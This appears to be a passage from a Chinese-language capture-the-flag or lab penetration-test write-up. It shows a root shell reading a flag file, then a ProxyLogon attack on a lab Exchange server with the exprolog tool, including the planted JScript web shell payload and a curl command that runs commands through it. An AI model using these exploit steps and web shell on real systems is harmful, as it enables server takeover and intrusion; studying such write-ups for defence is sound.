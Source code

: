 ```xml
root@iZ8vbhidac6emrzabcvappZ:/app/jsherp# whoami
whoami
root
root@iZ8vbhidac6emrzabcvappZ:/app/jsherp# cat ~/flag/flag01.txt
cat ~/flag/flag01.txt
 ██     ██ ██     ██       ███████   ███████       ██     ████     ██   ████████
░░██   ██ ░██    ████     ██░░░░░██ ░██░░░░██     ████   ░██░██   ░██  ██░░░░░░██
 ░░██ ██  ░██   ██░░██   ██     ░░██░██   ░██    ██░░██  ░██░░██  ░██ ██      ░░
  ░░███   ░██  ██  ░░██ ░██      ░██░███████    ██  ░░██ ░██ ░░██ ░██░██
   ██░██  ░██ ██████████░██      ░██░██░░░██   ██████████░██  ░░██░██░██    █████
  ██ ░░██ ░██░██░░░░░░██░░██     ██ ░██  ░░██ ░██░░░░░░██░██   ░░████░░██  ░░░░██
 ██   ░░██░██░██     ░██ ░░███████  ░██   ░░██░██     ░██░██    ░░███ ░░████████
░░     ░░ ░░ ░░      ░░   ░░░░░░░   ░░     ░░ ░░      ░░ ░░      ░░░   ░░░░░░░░

                        |  |  ||  | /~~\  /\  |\  /|~|~
                        |  |  ||--||    |/__\ | \/ | |
                         \/ \/ |  | \__//    \|    |_|_

              flag01: flag{1accd7bc-ec2f-4935-90f2-de68cd76dfa3}
root@iZ8vbhidac6emrzabcvappZ:/app/jsherp#
```

## Exchange 邮件服务器 - ProxyLogon

> 有关 Microsoft Exchange Server 的各种攻击链，可参考：[https://github.com/FDlucifer/Proxy-Attackchain](https://github.com/FDlucifer/Proxy-Attackchain)

使用 [exprolog](https://github.com/herwonowr/exprolog) 进行 ProxyLogon 攻击：

```
PS C:\exprolog> proxychains4 -q python3 .\exprolog.py -t 172.22.3.9 -e administrator@xiaorang.lab
___________      __________               .__
\_   _____/__  __\______   \_______  ____ |  |   ____   ____
 |    __)_\  \/  /|     ___/\_  __ \/  _ \|  |  /  _ \ / ___\
 |        \>    < |    |     |  | \(  <_> )  |_(  <_> ) /_/  >
/_______  /__/\_ \|____|     |__|   \____/|____/\____/\___  /
        \/      \/                                   /_____/

[#] Trying to get target FQDN
[+] Got target FQDN: XIAORANG-EXC01
[#] Trying to get target LegacyDN and ServerID
[+] Got target LegacyDN: /o=XIAORANG LAB/ou=Exchange Administrative Group (FYDIBOHF23SPDLT)/cn=Recipients/cn=8ca6ff254802459d9f63ee916eabb487-Administrat
[+] Got target ServerID: b5ebdaa1-b4b3-4b71-ab32-7d03b4955a75
[#] Trying to get target user SID
[+] Got target administrator SID: S-1-5-21-533686307-2117412543-4200729784-500
[#] Trying to get target administrator cookie sessions
[+] Got target administrator session ID: 21933c7f-5eef-4fcb-8c69-a38670c86e30
[+] Got target administrator canary session ID: jCkzx2KiaEO2v6Un-Hh2_EbgIA7TItsIhtj26lLrvDvZdpKlB1nxtDZC5txBeGX8akM3zwD4qng.
[#] Trying to get target OABVirtualDirectory ID
[+] Got target AOB ID: 6d8fb74b-8477-43ee-83ba-0b119205e85f
[#] Trying to inject OABVirtualDirectory Shell
[+] Shell are injected
[#] Verifying OABVirtualDirectory Shell
[+] AOB Shell verified
[+] AOB Shell payload: http:\/\/ooo\/#%3Cscript%20language=%22JScript%22%20runat=%22server%22%3Efunction%20Page_Load()%7Beval(Request%5B%22request%22%5D,%22unsafe%22);%7D%3C\/script%3E
[#] Trying to export OABVirtualDirectory Shell
[+] Shell are exported
[*] CURL Request:
curl --request POST --url https://172.22.3.9/owa/auth/gf8qo.aspx --header 'Content-Type: application/x-www-form-urlencoded' --data 'request=Response.Write(new ActiveXObject("WScript.Shell").exec("whoami /all").stdout.readall())' -k
```